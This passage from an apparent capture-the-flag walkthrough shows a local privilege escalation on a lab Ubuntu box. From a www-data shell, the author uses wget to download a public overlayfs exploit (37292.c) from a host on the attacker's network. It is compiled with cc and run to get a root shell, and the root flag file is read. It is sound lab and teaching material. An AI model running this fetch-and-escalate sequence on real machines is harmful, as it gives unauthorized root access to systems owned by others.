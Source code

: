 Let's transfer it to the machine. 

```Console
wget http://10.0.2.19/37292.c
--2022-09-10 09:41:35--  http://10.0.2.19/37292.c
Connecting to 10.0.2.19:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/x-csrc]
Saving to: '37292.c'

100%[======================================>] 4,968       --.-K/s   in 0s      

2022-09-10 09:41:35 (164 MB/s) - '37292.c' saved [4968/4968]
# gcc 37292.c -o ofs           
The program 'gcc' is currently not installed. To run 'gcc' please ask your administrator to install the package 'gcc'

```

But gcc is not installed, so let's try with cc. Also check if the code execute gcc.

```Console
cat 37292.c | grep "gcc"
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
    lib = system("gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w");
www-data@ubuntu:/tmp/exploit$ nano 37292.c 

Error writing /var/www/.nano_history: Permission denied
www-data@ubuntu:/tmp/exploit$ cat 37292.c | grep "gcc"
# user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
www-data@ubuntu:/tmp/exploit$ cc 37292.c -o ofs
www-data@ubuntu:/tmp/exploit$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# whoami
root
# ls -la /root
total 44
drwx------  3 root root 4096 Apr 29  2018 .
drwxr-xr-x 22 root root 4096 Apr 24  2018 ..
-rw-r--r--  1 root root   19 May  3  2018 .bash_history
-rw-r--r--  1 root root 3106 Feb 19  2014 .bashrc
drwx------  2 root root 4096 Apr 28  2018 .cache
-rw-------  1 root root  144 Apr 29  2018 .flag.txt
-rw-r--r--  1 root root  140 Feb 19  2014 .profile
-rw-------  1 root root 1024 Apr 23  2018 .rnd
-rw-------  1 root root 8296 Apr 29  2018 .viminfo
# cat /root/.flag.txt
Alec told me to place the codes here: 

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/

```